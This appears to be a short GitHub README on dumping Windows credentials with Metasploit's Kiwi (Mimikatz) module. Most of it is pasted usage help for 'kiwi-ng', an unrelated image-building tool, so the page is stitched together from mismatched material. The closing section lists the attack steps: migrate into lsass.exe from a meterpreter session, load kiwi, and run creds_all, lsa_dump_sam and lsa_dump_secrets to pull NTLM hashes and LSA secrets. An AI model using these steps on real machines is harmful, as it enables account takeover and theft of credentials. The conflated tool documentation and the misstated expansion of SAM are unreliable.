

# Credential-Dumping-with-Kiwi
Let's see how to dump the credentials with Kiwi
Kiwi is based on Mimikatz, a tool that can extract various types of credentials from Windows systems, such as passwords, hashes, tickets, and tokens. Kiwi can be loaded as a module in Metasploit and used to perform various credential-oriented operations on compromised Windows machines. 
## usage: kiwi-ng [global options] service <command> [<args>]
       kiwi-ng -h | --help
       kiwi-ng [--profile=<name>...]
               [--temp-dir=<directory>]
               [--target-arch=<name>]
               [--type=<build_type>]
               [--logfile=<filename>]
               [--logsocket=<socketfile>]
               [--loglevel=<number>]
               [--debug]
               [--debug-run-scripts-in-screen]
               [--color-output]
               [--config=<configfile>]
               [--kiwi-file=<kiwifile>]
           image <command> [<args>...]
       kiwi-ng [--logfile=<filename>]
               [--logsocket=<socketfile>]
               [--loglevel=<number>]
               [--debug]
               [--debug-run-scripts-in-screen]
               [--color-output]
               [--config=<configfile>]
           result <command> [<args>...]
       kiwi-ng [--profile=<name>...]
               [--shared-cache-dir=<directory>]
               [--temp-dir=<directory>]
               [--target-arch=<name>]
               [--type=<build_type>]
               [--logfile=<filename>]
               [--logsocket=<socketfile>]
               [--loglevel=<number>]
               [--debug]
               [--debug-run-scripts-in-screen]
               [--color-output]
               [--config=<configfile>]
               [--kiwi-file=<kiwifile>]
           system <command> [<args>...]
       kiwi-ng compat <legacy_args>...
       kiwi-ng --compat <legacy_args>...
       kiwi-ng -v | --version
       kiwi-ng help

## global options:
    --color-output
        use colors for warning and error messages
    --config=<configfile>
        use specified runtime configuration file. If
        not specified the runtime configuration is looked
        up at ~/.config/kiwi/config.yml or /etc/kiwi.yml
    --logfile=<filename>
        create a log file containing all log information including
        debug information even if this is was not requested by the
        debug switch. The special call: '--logfile stdout' sends all
        information to standard out instead of writing to a file
    --logsocket=<socketfile>
        send log data to the given Unix Domain socket in the same
        format as with --logfile
    --loglevel=<number>
        specify logging level as number. Details about the
        available log levels can be found at:
        https://docs.python.org/3/library/logging.html#logging-levels
        Setting a log level causes all message >= level to be
        displayed.
    --debug
        print debug information, same as: '--loglevel 10'
    --debug-run-scripts-in-screen
        run scripts called by kiwi in a screen session
    -v --version
        show program version
    help
        show manual page

## global options for services: image, system
    --profile=<name>
        profile name, multiple profiles can be selected by passing
        this option multiple times
    --shared-cache-dir=<directory>
        specify an alternative shared cache directory. The directory
        is shared via bind mount between the build host and image
        root system and contains information about package repositories
        and their cache and meta data.
    --temp-dir=<directory>
        specify an alternative base temporary directory. The
        provided path is used as base directory to store temporary
        files and directories. By default /var/tmp is used.
    --type=<build_type>
        image build type. If not set the default XML specified
        build type will be used
    --kiwi-file=<kiwifile>
        Basename of kiwi file which contains the main image
        configuration elements. If not specified kiwi searches for
        a file named config.xml or a file matching *.kiwi

## global options for services: image, system
    --target-arch=<name>
        set the image architecture. By default the host architecture is
        used as the image architecture. If the specified architecture name
        does not match the host architecture and is therefore requesting
        a cross architecture image build, it's important to understand that
        for this process to work a preparatory step to support the image
        architecture and binary format on the building host is required
        and not a responsibility of kiwi.

## Kiwi  
After an initial access (meterpreter session), migrate to the lsaas.exe and start kiwi.
migrate -N lsass.exe (**Lsass.exe is a Windows process that stands for Local Security Authority Subsystem Service. It is responsible for security-related functions, such as user authentication, password changes, and security policies**)
load kiwi 
  
 Dump Administrator NTLM hash: creds_all 
  
Extract all the users NTLM hash: lsa_dump_sam 
  
Find the syskey by dumping the LSA secrets: lsa_dump_secrets 
  

**DB SAM is a database system that securely stores user credentials, such as usernames and passwords, for Windows operating systems. It is also responsible for user authentication and security policy enforcement1. DB SAM stands for Database Security Account Manager.**

#Author
<b>Xiao Li Savio Feng</b>
